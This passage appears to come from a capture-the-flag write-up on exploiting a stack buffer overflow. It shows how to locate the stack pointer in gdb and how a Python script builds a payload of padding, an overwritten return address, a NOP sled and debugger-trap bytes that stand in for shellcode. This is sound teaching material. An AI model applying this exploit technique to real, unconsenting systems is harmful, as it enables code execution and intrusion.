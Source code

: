 To test, create a payload with just 8 `A`'s starting from `NADO...`:

```
head -c300 <genload | sed 's/NADO.*/AAAAAAAA/' >payload
```

Hit the Up Arrow and try again:

![](warmup-3.png)

`AAAAAAAA` in `rsp`, as expected.  Also notice the address of `rsp`: `0x00007fffffffe588`.

#### Craft Failed Exploit (it is how you learn)

This should be fairly trivial, just replace `AAAAAAAA` with an address down the stack, and then populate the stack with Intel machine code:

```
import struct

# len of payload file without the trailing AAAAAAAA
payload = "A"*264

# adress of stack (rsp) from gdb, plus 16 bytes (some wiggle room)
payload += struct.pack("<Q",0x00007fffffffe588+16)

# some nop, for a nop sled for variable env size
payload += "\x90"*0x100

# this is x86's debugger instruction, used for testing before attempting shellcode
payload += "\xCC"*4

print(payload)
```

Then:

```
python2.7 exploit.py >payload
```

Then, Up Arrow and play again:

